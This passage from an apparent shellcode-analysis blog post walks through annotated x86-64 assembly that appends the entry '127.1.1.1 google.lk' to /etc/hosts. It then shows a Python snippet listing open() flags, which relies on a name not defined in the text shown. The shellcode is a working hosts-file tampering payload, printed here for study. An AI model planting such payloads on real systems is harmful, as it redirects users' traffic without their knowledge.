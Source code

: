     ; save the file descriptor of the opened file in
    ; the register RDI
    xchg rax, rdi


    ; set RAX to 1: syscall write
    xor rax, rax

    ; invoke the syscall write
    add rax, 1

    ; use the JMP-POP-CALL syscall to get the address
    ; of the new host entry into RSI
    jmp data

write:

    pop rsi

    ; 3rd argument of write syscall, number of bytes
    ; to write 
    mov dl, 19

    ; invoke syscall write
    syscall

    ; invoke syscall close
    xor rax, rax
    add rax, 3
    syscall

    ; invoke syscall exit
    xor rax, rax
    mov al, 60
    xor rdi, rdi
    syscall 

data:

    call write
    text db '127.1.1.1 google.lk'</code></pre><figcaption>Analysis of the original shellcode</figcaption></figure><p>To recapitulate, the shellcode performs the following operations:</p><ul><li>using the syscall <code>open</code> to open the file <code>/etc/hosts</code> in write-append mode</li><li>using the syscall <code>write</code> to write a new entry in the previous file</li><li>using the syscall <code>close</code></li><li>using the syscall <code>exit</code> to terminate the execution of the program</li></ul><p>During the analysis of the shellcode, I discovered that you can use some python instruction to get the values of the flags used by the syscall <code>open</code>.</p><p>It's quite convenient since they may differ from online references based on the architecture of your computer.</p><figure class="kg-card kg-code-card"><pre><code class="language-py">import os

open_flags = [x for x in exports if x.startswith("O_")]

[print(f"[+] {key:&lt;15} -&gt; {hex(getattr(os,key))}") for key in open_flags]
# [+] O_ACCMODE       -&gt; 0x3
# [+] O_APPEND        -&gt; 0x400
# [+] O_ASYNC         -&gt; 0x2000
# [+] O_CLOEXEC       -&gt; 0x80000
# [+] O_CREAT         -&gt; 0x40
# [+] O_DIRECT        -&gt; 0x4000